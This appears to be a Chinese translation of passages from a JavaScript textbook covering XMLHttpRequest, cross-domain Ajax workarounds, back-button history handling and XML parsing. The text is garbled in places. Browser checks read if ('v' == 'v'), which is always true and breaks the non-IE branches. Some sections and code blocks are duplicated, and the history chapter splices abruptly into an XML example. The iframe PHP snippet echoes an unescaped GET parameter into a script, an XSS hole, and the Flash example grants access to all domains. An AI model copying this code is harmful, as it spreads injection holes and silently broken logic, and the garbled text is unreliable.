早在 2000 年，微软将该扩展作为一种 `ActiveX` 控件发明出来，以改进 Outlook Web Access 的用户体验。这成为了 `Internet Explorer 5.0` 的一部分。使用这个早期版本创建一个新实例，你需要编写类似下面的代码：

```javascript
var XHR = new ActiveXObject("Microsoft.XMLHTTP");
```

随着 `MSXML` 版本的更新，需要新的名称以避免破坏之前的实现。今天，为了使用 `ActiveX` 获取 `XHR` 控件的实例，必须检查多个版本以确保获取的是最新的：

```javascript
var xhrNames = ["MSXML2.XMLHTTP.6.0", "MSXML2.XMLHTTP.3.0", "MSXML2.XMLHTTP", "Microsoft.XMLHTTP"];
for (var i = 0; i < xhrNames.length; i++) {
    try {
        var XHR = new ActiveXObject(xhrNames[i]);
        break;
    } catch(e) {}
}
```

后来，它在其他浏览器中以原生对象的形式实现，尽管两种实现在功能上是相似的：

```javascript
if (typeof XMLHttpRequest != "undefined")
    var XHR = new XMLHttpRequest();
else
    // IE 代码
```

在 Internet Explorer 7 中，微软开始支持这种原生方法，部分由于用户不愿在应用程序中使用 `ActiveX` 控件。将这些浏览器差异合并到单个工具类中的最佳方法是对 `XMLHttpRequest` 对象进行特性检测：

```javascript
var XHR = function() {
    if (typeof XMLHttpRequest == "undefined") {
        var xhrNames = ["MSXML2.XMLHTTP.6.0", "MSXML2.XMLHTTP.3.0", "MSXML2.XMLHTTP", "Microsoft.XMLHTTP"];
        for (var i = 0; i < xhrNames.length; i++) {
            try {
                var XHR = new ActiveXObject(xhrNames[i]);
                break;
            } catch(e){}
        }
        if (typeof XHR != "undefined")
            return XHR;
        else
            throw new Error("不支持 Ajax!");
    } else {
        return new XMLHttpRequest();
    }
}
```

使用这个新工具类获取 `XMLHttpRequest` 对象的实例，只需像以前一样使用：`var myXHR = XHR();`

根据浏览器和版本，`XMLHttpRequest` 对象具有以下成员。请务必检查附录 B 中的浏览器兼容性信息：


## 打开连接

一旦你获得了一个 `XHR` 对象的实例，就可以打开与服务器的连接来发送或接收数据。你通过 `open()` 命令来实现。`open()` 的通用语法为：`xhrobj.open(sMethod, sUrl [, bAsync] [, sUser] [, sPassword])`

第一个参数 `sMethod` 是你想要执行的 HTTP 或 WebDAV（全球万网分布式发布与版本控制）动词。标准的 HTTP 请求是 `GET`。其他动词包括：


下一个参数 `sUrl` 是请求将发送到的绝对 URL（例如，`http://myurl.net/page.html?bla=yah`）或相对 URL（例如 `../xml/`）。如果你希望请求是同步的，将可选参数 `bAsync` 设置为 `false`。在这种情况下，程序执行将停止直到连接完成。如果为 `true` 或省略，连接将是异步的，这意味着来自服务器的响应将触发一个你可以捕获的事件，程序执行将继续进行直到那时。参数 `sUser` 和 `sPassword` 用于身份验证，很少使用。

浏览器对你同时向服务器建立的连接数量有严格限制。Firefox 3 设置了六个连接的限制，IE 5 将此限制为两个，IE8 同样允许六个。这包含了 Ajax 请求、图像下载或任何其他请求。额外的请求将排队直到连接可用。在 IE8 中，如果是拨号上网，取决于服务器是 HTTP 1.0 还是 1.1，可用连接数将减少到四个。

现在让我们使用我创建的 `XHR` 实例为 `data.html` 打开一个连接：`myXhr.open("get", "data.html", false);`。连接已打开，但什么都没有发生。要结束连接，请使用 `send()`，它支持一个强制参数，该参数用于填充 POST 的内容。由于我现在正在执行 `GET`，我将把它设置为 `null`：`myXhr.send(null);`。

由于此请求是同步的（我对 `bAsync` 使用了 `false`），这会导致浏览器在发送请求期间冻结一下。完成后，执行将恢复，我可以查看响应：`document.write(myXhr.responseText);`。对于普通的 HTML 内容，结果将保存在 `responseText` 中。对于 XML 文档，它将包含在 `responseXML` 中。

现在让我们做一些稍微复杂的操作。首先，我要以 POST 的形式向服务器传递一些数据。我还将使此请求变为异步，并使用事件来捕获响应。`XHR` 对象有一个名为 `onreadystatechange` 的属性。这用于设置或检索异步请求的事件处理器。要向 `onreadystatechange` 绑定一个函数，只需使用赋值：`myXhr.onreadystatechange = handleStatusChange;`。

稍后我将定义这个函数并解释它是如何运作的。首先，回到我打算执行的 POST：`myXhr.open("post", "data.html", true);`。在 POST 请求中，你将请求数据放在 `send()` 中，作为一组有序的键值对：

```javascript
function keyValuePair(key, value) {
    return encodeURIComponent(key) + "=" + encodeURIComponent(value);
}

myXhr.send(keyValuePair("hello", "world!=&bla") + "&" + keyValuePair("apple", "sauce"));

function handleStatusChange() {
    if (myXhr.readyState == 4) {
        // Transfer is finished!
        alert("Transfer complete!\n\nContents:\n" + myXhr.responseText);
    }
}
```

## 请求头与响应头

每当你从 Web 服务器请求文档时，你会获得以标头（header）形式提供的键值对集合，以及文档本身。此标头包含了状态码、时间戳和内容类型等信息。要获取包含所有响应头的字符串，请使用 `getAllResponseHeaders()`。这将返回一个用回车符分隔每个标头的字符串。你可以看到如下示例输出：

```
Date: Mon, 16 Mar 2009 23:53:39 GMT
Etag: "4987b97a-e-860285"
Last-Modified: Tue, 03 Feb 2009 03:26:50 GMT
Content-Type: text/html
Content-Length: 14
```

要获取特定的标头值，请使用 `getResponseHeader()`，它接受一个参数，该参数包含你想要获取的标头字符串。例如：`document.write(myXhr.getResponseHeader("Etag"));` // "4987b97a-e-860285"

你也会作为请求的一部分发送标头。你可以使用 `setRequestHeader()` 来控制这些值，它接受两个参数：`xhrObj.setRequestHeader(sHeader, sValue);`。

例如，如果你想为表单提交（form post）设置内容类型，可能需要使用 `application/x-www-form-urlencoded` 类型值：`myXhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");`。

这些方法对标头值提供了大量的控制，但在正常情况下，通常没有必要去调整这些内容。

## 安全

在第 17 章中我讨论了同源策略（Same Origin Policy），它限制了 JavaScript 跨域的通信。`XMLHttpRequest` 对象也是如此。在源自 `wrox.com` 的文档中，你无法向 `someothersite.com` 甚至 `browsewrox.com` 发起 Ajax 请求，因为这违反了这条规则并触发安全异常。

另一个安全考虑因素是，Ajax 应用往往具有更大的攻击面，需要审计和保护。例如，你暴露的用于更改数据甚至查询数据库的每个 HTTP 服务，都是用户探测并插入恶意数据的机会，试图访问数据或破坏数据。

### 使用 GET 请求更改数据

开发者在将应用“Ajax 化”时遇到的一个常见问题发生在他们编写用于更改数据的 HTTP 服务时。考虑以下示例：`http://mysite.com/users/?action=delete&id=123`

某些浏览器工具，如 Google 的 Web 加速器（`http://webaccelerator.google.com/`）——会自动预加载页面上的所有 URL 以加快页面加载速度。如果你对可能更改数据的操作使用替代的 HTTP 动词，这个问题就会消失。例如，你可以使用 POST 或 DELETE 请求代替 GET 请求。

# 跨域 Ajax

在早前的第 17 章中，我引入了同源策略，它规定了 JavaScript 应用如何与跨域文档通信。Ajax 请求也受这些规则的限制，任何进行大量 Ajax 开发的人在日常使用中都会很快遇到同源性的限制。随着像 Flickr API 和 Yahoo! Web Services 等公共 Web 服务的爆炸式增长，开发者们开始怀疑这种限制是否弊大于利。

同源策略的原始意图之一是保护用户免受恶意脚本在用户不知情的情况下与第三方服务器进行通信的影响。然而，浏览器的其他功能抵消了这一点，让那些有决心的开发者能够绕过任何限制。

事实是，有许多正当理由想要进行跨源或跨域 Ajax 请求。以下仅是几点：

* 接入丰富的第三方数据库，如 Google Maps、Yahoo! Geo APIs、字典和百科全书查询等。
* 使用第三方网络分析工具。
* 采用面向服务的架构（SOA），并将应用程序的部分分布在多个网络上的多个源上。

无论你是否认为跨域 Ajax 是一种应该避免还是拥抱的实践，不可否认，能够跨域通信为内容和组件化的 JavaScript 特性开启了无限可能。

## 方法比较

在本节中，我将讨论许多以类 Ajax 方式进行跨域通信（无需刷新浏览器）的各种方法。为了让你预先了解每种方法的优点并帮助你缩小调查范围，这里有一个总结并比较了主流方法的图表：


## document.domain

在你有多个子域名（如 `browserox.com` 和 `www.wrox.com`）的情况下，正常情况下无法从其中一个向另一个发送 Ajax 请求，除非你设置了 `document.domain` 属性。

## 服务器代理

本地源服务器上的代理脚本可以是与外部服务往回传递请求的有效手段。代理脚本通常是轻量且高效的。在图 19-2 中，你可以看到代理如何在第三方服务与 `XMLHttpRequest` 之间建立接口。


通常，使用代理脚本只需要重写目标 URI，将预期 URI 作为参数传递：

```javascript
function proxyUrl(proxyLocation, intendedDestination) {
    return proxyLocation + "?url=" + encodeURIComponent(intendedDestination);
}

myXhr.open("get", proxyUrl("proxy.php", "http://api.yahoo.com/geocode/?lat=334.42&long=34.232"), true);
```

对于想象中的每一个平台，都有免费的开源代理脚本可以下载。这里仅是几处：

* PHPProxy: `http://freshmeat.net/projects/phpproxy/`
* ASProxy (ASP.NET): `http://asproxy.sourceforge.net/`
* Proxy Servlet: `http://www.handle.net/proxy_servlet.html`

在使用这种方法时需要记住的一点是它对 Web 服务器产生的额外影响。如果你为每个用户代理大量请求，且流量很大，这可能会瘫痪你的机器。在选择这种方法之前，请确保你有足够的容量。

## iframe 片段标识符

通过 iframe 的帮助，可以实现某些有限的跨域通信。尽管位于另一个域的 iframe 无法通过 JavaScript 访问其文档，但你可以读取它的 URL。这看起来可能没什么，但它是 iframe 文档和父窗口都可以更改和读取的内容，因此它是一个通信点。其工作原理如下：

* 父窗口在 iframe 中加载另一个域的某个经过特殊准备的网页。
* iframe 文档加载（假设 URL 为 `http://mysite.com/page.htm`）并立即设置片段标识符（fragment identifier），以包含它想要传达给父窗口的信息。例如：`http://mysite.com/page.htm#someinformation`。
* 父窗口监控 iframe 的 URL，以检查片段标识符是否发生变化。当发生变化时，父窗口就会读取这些信息。
* 搞定！跨域通信实现。

这种方法要求父窗口和子帧都不断对 URL 进行轮询。它还限制了往回传输的信息量，尽管如果需要，可以将信息拆分成许多数据块。

它还有另一个不良的副作用。在大多数浏览器中，更改 iframe 的片段标识符将强制在父窗口的 `History` 对象中产生一个记录。当用户点击浏览器中的“后退”按钮时，导致的是 iframe 的变化。

总而言之，这是一种非常迂回的方法，而本可以通过脚本注入或使用 Flash 更轻松地解决，我现在将讨论这两种方法。

## 图像注入

图像注入方法基本上涉及向 DOM 中插入一个非常小的 `` 标签，用于触发外部网络服务。向客户端返回通信是困难的，但某些实现通过更改返回图像的 `size` 实现了这一点。你可以通过类似下面的操作来实现：

```javascript
var newImg = new Image();
newImg.src = "http://mysite.com/fakeimg.gif";
newImg.onload = function() {
    alert(newImg.width + ", " + newImg.height);
}
```

## `<SCRIPT>` 注入

脚本注入与图像注入方法类似，它基本上涉及向 DOM 中插入 `<SCRIPT>` 标签。任何需要发送出去的信息都作为参数放入查询字符串中：

```html
<script type="text/javascript" src="http://myservice.com/?data=somedatahere"></script>
```

服务器的响应会被评估，因此输出的任何内容都需要是格式正确的 JavaScript。这同时也意味着你必须完全信任该脚本的提供者。这将通过脚本请求传输一些数据：

```javascript
var scriptTag = document.createElement("script");
scriptTag.type = "text/javascript";
scriptTag.setAttribute("src", url + "&data=" + encodeURIComponent(data));
document.body.appendChild(scriptTag);
```

## Flash 方法

目前最灵活的跨域通信方式可能就是使用 Flash 动画。不仅如此，在 ActionScript 3 中，有一种方法可以使用 `GZIP` 压缩所有传出的数据，使得能够快速地往回传输大量的二进制信息。它是通过 `Action Message Format` (`AMF`) 实现此点的。如果你选择这条路线，在服务器上你需要使用能够解码 `AMF` 消息的库，例如 BlazeDS (`http://opensource.adobe.com/wiki/display/blazeds/BlazeDS/`) 或 `AMFPHP` (`www.amfphp.org`)。它们都是免费的开源库。

不过，你不必使用 `AMF`。你可以作为未编码文本传输数据，就像通过 Ajax 提交一样。然而，Adobe 为控制这种用途所采取的方法是强制使用名为 `crossdomain.xml` 的权限文件，该文件必须位于你所连接服务器的根目录下。例如，如果你连接到 `http://mysite.com/mydir/myurl.php` 的 URL 且跨域，Flash 动画将首先尝试下载 `http://mysite.com/crossdomain.xml` 处。

在你的 `XML` 文件内部，你可以为不同的域划分特定的权限，或者如果你像 YouTube 一样希望每个人都能访问你的网络服务，你可以这样做：

```xml
<?xml version="1.0"?>
<!DOCTYPE cross-domain-policy SYSTEM "http://www.macromedia.com/xml/dtds/cross-domain-policy.dtd">
<cross-domain-policy>
    <allow-access-from domain="*" />
</cross-domain-policy>
```

它允许所有人访问。一旦设置好此文件，你就可以创建一个使用 `URLLoader` 库的新 Flash 动画，当然还可以使用 `ExternalInterface` 与 JavaScript 通信。我将在第 23 章详细讨论 `ExternalInterface`。以下是一个 AS3 脚本，它暴露了一个单方法（`LoadURL()`），用于向页面上的任意页面发送数据：

```as3
import flash.display.Sprite;
import flash.external.ExternalInterface;
import flash.events.*;
import flash.net.*;

function LoadURL(url, postvars):void {
    var loader:URLLoader = new URLLoader();
    loader.addEventListener(Event.COMPLETE, completeHandler);
    var request:URLRequest = new URLRequest(url);
    request.data = postvars;
    loader.load(request);
}

function completeHandler(event:Event): void {
    var loader:URLLoader = event.target;
    var vars:URLVariables = new URLVariables(loader.data);
    ExternalInterface.call("FlashRespond", vars.answer);
}

flash.system.Security.allowDomain("*");
ExternalInterface.addCallback("LoadURL", LoadURL);
```

## 跨域 XMLHttpRequest

W3C 目前正在尝试标准化一种跨域（或“跨站”）的 XMLHttpRequest 方法，这种方法基于浏览器中已存在的功能。它的工作方式将如下所示：如果网络服务作者在 `http://coolapi.com/geo/` 有一个输出字符串 `lat:3213.23,long:2132.21` 的资源，并且 `http://mysite.com/` 有一个文档请求它，服务将返回 `Access-Control-Allow-Origin: http://mysite.com` 头部。

通过 Ajax 请求文档的方法并没有改变：

```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://coolapi.com/geo/");
xhr.send(null);
```

对于没有实现此特定头部的网站，跨域通信仍然是不可能的。目前，Firefox 3.5 计划包含此功能，其他浏览器也必将跟进。尽管如此，你不认为这会在未来几年内成为一个良好支持的功能。

# 历史与书签

随着 Ajax 变得越来越流行，开发者在应用程序中赋予了它更大的角色。用户在体验提升后，首先注意到的问题之一是，浏览器的“后退”和“前进”按钮不再按预期工作了。点击“后退”按钮不会撤销对 DOM 的更改，也不应该这样做。然而，用户已经习惯将“后退”按钮视为一种“撤销”功能。如果你的整个应用程序破坏了这个功能，当用户漫不经心地点击“后退”按钮时，他们会被带回登录页或之前的页面。图 19-3 描述了这个问题。

图 19-3

另一个相关问题是，用户无法收藏一个通过大量 Ajax 请求构建的页面。浏览器没有办法精确表示该页面的状态并让用户返回该页面。至少，在没有帮助的情况下做不到。

解决这个问题有两种方法。最简单的方法是节制使用 Ajax，仅将其用于微小的页面更新，并让主导航使用传统方法。一种更好但更复杂的解决方案是使用所谓的“iframe 方案”来跟踪状态变化，并根据你设计的某些哈希（hash）或符号来重建页面。例如，假设你有一个页面有一个 Ajax 内容区域；将该区域命名为 `myAjaxArea`。如果你将 `data.txt` 的内容加载到 `myAjaxArea` 中，你可以将页面的状态表示为“myAjaxArea=data.txt”或类似的内容。稍后，当你发现页面“状态”已变为“myAjaxArea=somethingelse.txt”时，你就知道该时候用 `somethingelse.txt` 的内容重新加载 `myAjaxArea` 了。这仅仅是跟踪页面状态的一种方法。具体如何实现取决于你的个人偏好。困难的部分是让浏览器在用户使用“后退”和“前进”按钮时向你提供信息。

### Iframe 方案

iframe 方案实际上是两种方法的结合。在大多数浏览器中（包括基于 Mozilla 的浏览器、新版 Safari 和 Opera）中，当你更改文档的片段标识符（`http://mysite.com/bla/#somefragment` 中 # 之后的部分）时，对于浏览器的 `History` 对象来说，它记录为了新页面。当用户点击“后退”或“前进”按钮时，这些片段标识符会在更改之间循环。这在页面实际重新加载的情况下发生。这是修复后退按钮生效的关键：当用户点击“后退”按钮时，页面本身不能重新加载。

在 Internet Explorer 8 之前的版本中，情况并非如此。片段标识符的更改不会影响历史记录或“后退/前进”按钮。相反，你必须使用一个 iframe 并强制它加载新文档，以便将页面更改记录为历史记录中的一项。遗憾的是，这种技术在我提到的其他浏览器中不起作用，因此你必须同时使用两种方法。不过没关系，因为这样做不会给脚本增加太多的复杂度。

### HistoryObject 类

我将构建一个简单的类，使用这两种方法控制进入历史对象的记录。这个类我将称为 `HistoryObject`，它将具有以下特性：

* 在类的构造函数中，我将插入一个 iframe 并指向一个本地脚本（我也必须编写该脚本）。此框架将是文档的一部分但不可见。
* 我将创建一个定时器，持续轮询 `window.location.hash` 片段标识符以检查它是否发生变化。这适用于 Internet Explorer 以外的浏览器。
* 在这个定时器中，我还会检查 iframe 中加载了哪个页面。这比听起来要复杂，我稍后会解释。
* 当这两个值中的任一个发生变化时，我会触发一个事件并调用用户定义的函数。
* 该类将有一个方法，用于在发生 Ajax 更新后设置页面的哈希。这将导致 `window.location.hash` 片段标识符发生更改，同时也导致 iframe URL 更改，从而在历史对象中插入一个事件。

我将从为我的类定义一个构造函数开始。这个构造函数接受两个参数：一个用于存储在 iframe 中的脚本，另一个用于用户点击“后退”或“前进”按钮（或加载已带有片段标识符的页面）时执行的回调函数：

```javascript
var HistoryObject = function(url, callbackFn) {
    // 创建自身的引用
    var that = this;

    // 设置回调函数
    this.callbackFn = callbackFn;

    // 指明 iframe URL 的位置
    this.frameUrl = url;
}
```

在第一部分中，我还记录了两个参数，并创建了一个供以后使用的自引用。接下来，我需要检测是否在使用 Internet Explorer，如果是，则创建一个 iframe：


```javascript
// 创建 iframe
if ('v' == 'v') {
    this.iframeObj = document.createElement("iframe");
    this.iframeObj.src = url + "?state=";
    this.iframeObj.style.display = "block";
    document.body.appendChild(this.iframeObj);
}
```

在这里，我还设置了 iframe 的初始值为 `?state=`，这是我将如何跟踪哈希。接下来，我将定义一个函数，定期检查 `window.location.hash` 和 iframe 的 URL。如果用户点击“后退”按钮，这个函数应该察觉到并调用用户的。

```javascript
// 检查是否有变化
this.checkHash = function() {
    if ('v' == 'v') {
        var stateHash = this.iframeObj.contentWindow.bbhash;
        window.location.hash = stateHash; // 针对 IE
    } else {
        var stateHash = window.location.hash.replace("#", "");
        stateHash = decodeURIComponent(stateHash);
        if (that.currentStateHash != stateHash) {
            that.currentStateHash = stateHash;
            that.callbackFn(that);
        }
    }
};

// 这里的哈希定时器检查
```

注意，对于非 Explorer 浏览器，我对比哈希进行了 `replace("#", "")`。这是为了规范化我们处理的值。Internet Explorer 字符串中不包含此内容，所以我将其删除。此外，注意我不是检查 iframe 的 URL，而是检查 `iframeObj.contentWindow.bbhash`。这样做是因为在 Internet Explorer 中，当用户点击后退按钮时，尽管窗口内容发生了变化，URL 并没有。在 iframe 内部，我需要它将 `window.bbhash` 值设置为传入的 state 变量。你可以在 HTML 页面中执行此操作，但使用 PHP、ASP.NET 或 servlet 等脚本语言会简单得多。这里是我需要的 iframe 脚本示例：

```html
<script type="text/javascript">
window.bbhash = '<?php
echo $_GET['state'];
?>';
</script>
```

接下来，回到 `HistoryObject` 的构造函数并设置 `currentStateHash` 的初始值，它将跟踪页面当前的哈希。我还将设置定时器，它最初会调用 `checkHash()`：

```javascript
// 开始哈希定时器检查
this.currentStateHash = "";
this.hashTimer = setTimeout(this.checkHash, 250);
```

最后，我只需要提供一个向历史记录插入新项目的函数。我将其命名为 `InsertHistory()`：

```javascript
// 此方法将向历史记录添加项目
this.InsertHistory = function(stateHash) {
    // 如果是 IE，则更改 iframe URL
    if ('v' == 'v') {
        that.iframeObj.src = that.frameUrl + "?state=" + encodeURIComponent(stateHash);
        window.location.hash = stateHash;
    }
};
```

对于非 Explorer 浏览器，这会将 `window.location.hash` 设置为 `stateHash`。在 IE 中，它会将 `iframe` 的 URL 设置为包含作为状态变量的 `stateHash`。这会导致 `iframe` 的完全加载，并在历史记录对象中产生正确的记录。

现在让我们对我创建的类进行测试运行。为了简单起见，我将只假装执行 Ajax 请求。这里的重点是展示 `HistoryObject()` 是如何工作的。我将首先创建一个处理后退按钮点击的回调函数：

```javascript
function HistoryCallbackFunction() {
    alert("Restoring state to " + this.currentStateHash);
    // 根据此 hash 恢复页面
}
```

回到 `checkHash()`，当我在历史发生变化时调用用户定义的脚本时，我将 `this` 属性设置为等于 `HistoryObject` 实例。这样，在用户定义的函数中只需通过引用 `this` 就能轻松地访问该实例的成员。该函数将在屏幕上弹出新的 hash 值。这就是我如何根据该 hash 的值来重建页面。

接下来，我将创建一个 `HistoryObject` 实例：

`var ho = new HistoryObject("history.php", HistoryCallbackFunction);`

现在我将编写一个小函数来执行模拟 Ajax 请求并将项插入历史记录中：

```javascript
function doAjaxRequest() {
    ho.InsertHistory("ajaxarea1=content1");
    // 在此处执行 ajax 请求
    return false;
}
```

剩下的唯一工作是为页面连接一个按钮，以执行这个模拟的 Ajax 请求：

```html
<button onclick="doAjaxRequest();">执行 Ajax 请求并添加历史记录</button>
```

有许多免费的开源库可以实现与你刚刚阅读的内容相似的功能。其中一个非常流行的库是 Brad Neuberg 开发的 *Really Simple History* ([`code.google.com/p/reallysimplehistory/`](http://code.google.com/p/reallysimplehistory/))。

这里是完整的示例：

```html
<head>
    <title>后退按钮与书签脚本</title>
</head>
<body>
    <h1>后退按钮与书签脚本</h1>
    <script type="text/javascript">
        var HistoryObject = function(url, callbackFn) {
            // 创建指向自身的引用
            var that = this;
            // 设置回调函数
            this.callbackFn = callbackFn;
            // 指明 iframe URL 的位置
            this.frameUrl = url;
            // 创建 iframe
            if ('v' == 'v') {
                this.iframeObj = document.createElement("iframe");
                this.iframeObj.src = url + "?state="
                this.iframeObj.style.display = "block";
                document.body.appendChild(this.iframeObj);
            }
            // 检查 hash 是否有变化
            this.checkHash = function() {
                if ('v' == 'v') {
                    var stateHash = that.iframeObj.contentWindow.bbhash;
                    window.location.hash = stateHash; // 用于 IE
                } else
                    var stateHash = window.location.hash.replace("#", "");
                stateHash = decodeURIComponent(stateHash);
                if (that.currentStateHash != stateHash) {
                    that.currentStateHash = stateHash;
                    that.callbackFn(that);
                }
                that.hashTimer = setTimeout(that.checkHash, 250);
            };
            // 开始 hash 定时检查
            this.currentStateHash = "";
            this.hashTimer = setTimeout(this.checkHash, 250);
        }
        // ...
        var ho = new HistoryObject("history.php", HistoryCallbackFunction);
        function doAjaxRequest() {
            ho.InsertHistory("ajaxarea1=content1");
            // 在此处执行 ajax 请求
            return false;
        }
    </script>
</body>
</html>
```

接下来，我将它转换为字符串并将其赋值给一个 JavaScript 变量：

```javascript
var xmlStr = "<customer>";
xmlStr += "<name>Alexei White</name>";
xmlStr += "<birthdate>March 10, 1980</birthdate>";
xmlStr += "<email>me@domainhidden.com</email>";
xmlStr += "<phone>604-555-5555</phone>";
xmlStr += "</customer>";
```

在将此解析为 XML 文档之前，我需要获取一个 `XMLDOM` 解析器的实例。我将需要根据功能支持情况进行一些分支处理。在 Internet Explorer 中，我必须使用 `ActiveXObject` 来获取该对象的引用。在这种情况下，我想按照版本顺序使用以下 `XML` API 之一：

为了检测应该使用这些中的哪一个，我将使用我在第 19 章中用于的相同技术来遍历每一个项并选择最可用的：

```javascript
if ('v' == 'v') {
    // Internet Explorer
    var xmlNames = ["Msxml2.DOMDocument.6.0", "Msxml2.DOMDocument.4.0", "Msxml2.DOMDocument.3.0", "Msxml2.DOMDocument", "Microsoft.XMLDOM", "Microsoft.XmlDom"];
    for (var i = 0; i< xmlNames.length; i++) {
        try {
            var xmlDoc = new ActiveXObject(xmlNames[i]);
            break;
        } catch(e) {}
    }
}
```

此时此时，我应该已经在 `xmlDoc` 中有了一个文档 API 的实例。我可以开始使用它了。首先，我需要将加载指令设置为同步。对静态字符串 *asynchronously*（异步）解析是没有意义的，因为在大多数情况下，结果将立即可用。之后，我调用 `loadXML()` 来解析该字符串：

```javascript
xmlDoc.async = false;
xmlDoc.loadXML(xmlStr);
```

现在来看一眼 `W3C` 的方法（它可以在 Safari、Firefox、Chrome 和 Opera 中工作），情况大不相同。首先，`XML` 文档通过创建一个 `DOMParser()` 实例并调用 `parseFromString()` 来形成，该方法接受两个参数。第一个是 `XML` 字符串，第二个是内容类型：

```javascript
} else {
    // Firefox, Mozilla, Opera, Webkit.
    var parser = new DOMParser();
    var xmlDoc = parser.parseFromString(xmlStr, "text/xml");
}
```

在这个阶段，我将在 `xmlDoc` 中拥有一个 `XML` 文档，我可以在我的应用程序中使用它。以下是我如何从客户条目中提取 `name` 属性：

`xmlDoc.getElementsByTagName("name")[0].childNodes[0].nodeValue`

下面的完整示例将我刚刚执行过的代码抽象成一个名为 `parseXML()` 的函数。它还会在屏幕上显示第一位客户的名字：

```html
<html>
<head>
    <title>XML Parsing Example</title>
</head>
<body>
<h1>XML Parsing Example</h1>
<p id="result">
<script type="text/javascript">
function parseXML(str) {
    if ('v' == 'v') {
        //Internet Explorer
        var xmlNames = ["Msxml2.DOMDocument.6.0", "Msxml2.DOMDocument.3.0", "Msxml2.DOMDocument", "Microsoft.XMLDOM", "Microsoft.XmlDom"];
        for (var i = 0; i < xmlNames.length; i++) {
            try {
                var xmlDoc = new ActiveXObject(xmlNames[i]);
                break;
            } catch(e) {}
        }
        xmlDoc.async = false;
        xmlDoc.loadXML(str);
    } else {
        // Firefox, Mozilla, Opera, Webkit.
        try {
            var parser = new DOMParser();
            var xmlDoc = parser.parseFromString(str, "text/xml");
        } catch(x) {
            alert(x.message);
            return;
        }
    }
    return xmlDoc;
}
var xmlStr = "<customer><name>Alexei White</name><birthdate>March 10, 1980</birthdate><email>me@domainhidden.com</email><phone>604-555-5555</phone></customer>";
var xmlDOM = parseXML(xmlStr);
// 将名字写到屏幕上。
document.getElementById("result").innerHTML = xmlDOM.getElementsByTagName("name")[0].childNodes[0].nodeValue;
</script>
</body>
</html>
```

## 加载 XML 文档

在第 19 章中，我向你了如何使用 `XMLHttpRequest` 异步加载 HTML 文档。你可以使用相同的技术来加载 `XML` 文档，或者你可以使用 `XML DOM` API 本身来实现。这就是我们将查看的内容。我将从 Internet Explorer 开始。在开始之前，我会创建一个包含一些 `XML` 的外部文件并将其命名为 `data.xml`。在该文件的第一行，我放置标准的 `<?xml version="1.0"?>` 表明这是一个 `XML` 文档：

```xml
<?xml version="1.0"?>
<customer>
    <name>Alexei White</name>
    <birthdate>March 10, 1980</birthdate>
    <email>me@domainhidden.com</email>
    <phone>604-555-5555</phone>
</customer>
```

在 Internet Explorer 中，我将使用 `ActiveXObject` 来获取该对象的引用。在这种情况下，我想按照版本顺序使用以下 `XML` API 之一：

为了检测应该使用这些中的哪一个，我将使用我在第 19 章中使用的相同技术来遍历每一个项并选择最可用的：

```javascript
if ('v' == 'v') {
    // Internet Explorer
    var xmlNames = ["Msxml2.DOMDocument.6.0", "Msxml2.DOMDocument.4.0", "Msxml2.DOMDocument.3.0", "Msxml2.DOMDocument", "Microsoft.XMLDOM", "Microsoft.XmlDom"];
    for (var i = 0; i< xmlNames.length; i++) {
        try {
            var xmlDoc = new ActiveXObject(xmlNames[i]);
            break;
        } catch(e) {}
    }
}
```

此时此时，我应该已经在 `xmlDoc` 中有了一个文档 API 的实例。我可以开始使用它了。首先，我需要将加载指令设置为同步。对静态字符串 *asynchronously*（异步）解析是没有意义的，因为在大多数情况下，结果将立即可用。之后，我调用 `loadXML()` 来解析该字符串：

```javascript
xmlDoc.async = false;
xmlDoc.loadXML(xmlStr);
```

现在来看一眼 `W3C` 的方法（它可以在 Safari、Firefox、Chrome 和 Opera 中工作），情况大不相同。首先，`XML` 文档通过创建一个 `DOMParser()` 实例并调用 `parseFromString()` 来形成，该方法接受两个参数。第一个是 `XML` 字符串，第二个是内容类型：

```javascript
} else {
    // Firefox, Mozilla, Opera, Webkit.
    var parser = new DOMParser();
    var xmlDoc = parser.parseFromString(xmlStr, "text/xml");
}
```

在这个阶段，我将在 `xmlDoc` 中拥有一个 `XML` 文档，我可以在我的应用程序中使用它。以下是我如何从客户条目中提取 `name` 属性：

`xmlDoc.getElementsByTagName("name")[0].childNodes[0].nodeValue`

下面的完整示例将我刚刚执行过的代码抽象成一个名为 `parseXML()` 的函数。它还会在屏幕上显示第一位客户的名字：

```html
<html>
<head>
    <title>XML Parsing Example</title>
</head>
<body>
<h1>XML Parsing Example</h1>
<p id="result">
<script type="text/javascript">
function parseXML(str) {
    if ('v' == 'v') {
        //Internet Explorer
        var xmlNames = ["Msxml2.DOMDocument.6.0", "Msxml2.DOMDocument.3.0", "Msxml2.DOMDocument", "Microsoft.XMLDOM", "Microsoft.XmlDom"];
        for (var i = 0; i < xmlNames.length; i++) {
            try {
                var xmlDoc = new ActiveXObject(xmlNames[i]);
                break;
            } catch(e) {}
        }
        xmlDoc.async = false;
        xmlDoc.loadXML(str);
    } else {
        // Firefox, Mozilla, Opera, Webkit.
        try {
            var parser = new DOMParser();
            var xmlDoc = parser.parseFromString(str, "text/xml");
        } catch(x) {
            alert(x.message);
            return;
        }
    }
    return xmlDoc;
}
var xmlStr = "<customer><name>Alexei White</name><birthdate>March 10, 1980</birthdate><email>me@domainhidden.com</email><phone>604-555-5555</phone></customer>";
var xmlDOM = parseXML(xmlStr);
// 将名字写到屏幕上。
document.getElementById("result").innerHTML = xmlDOM.getElementsByTagName("name")[0].childNodes[0].nodeValue;
</script>
</body>
</html>
```

### 使用 XMLHttpRequest 加载 XML 文档

也可能使用 `XMLHttpRequest` 来下载 `XML` 文档。这认为是一个更好的方法，因为它具有更好的跨浏览器支持。方法与任何 Ajax 请求相同，但使用的是 `responseXML` 属性而不是 `responseText`：

```javascript
var myXhr = new XHR(); // 这使用了第 19 章中的 XHR 函数

myXhr.onreadystatechange = function() {
    if (myXhr.readyState == 4) {
        var xmlDoc = myXhr.responseXML;
        document.getElementById("result").innerHTML = xmlDoc.getElementsByTagName("name")[0].childNodes[0].nodeValue;
    }
};

myXhr.open("get", url, true);
myXhr.send(null);
```

此示例使用了第 19 章中的 `XHR()` 工具来获取 `XMLHttpRequest()` 的引用。

## 处理错误

如果你尝试加载一个 XML 文档并且在将文本解析为对象模型时发生错误，你可能希望在代码中处理这种情况。无论你是在加载外部 XML 文件还是在反序列化文本，处理方法都是相同的。在 Internet Explorer 中，XML DOM 上有一个名为 `parseError` 的属性专门用于此目的。这实际上实际上是一个带有以下属性的对象：


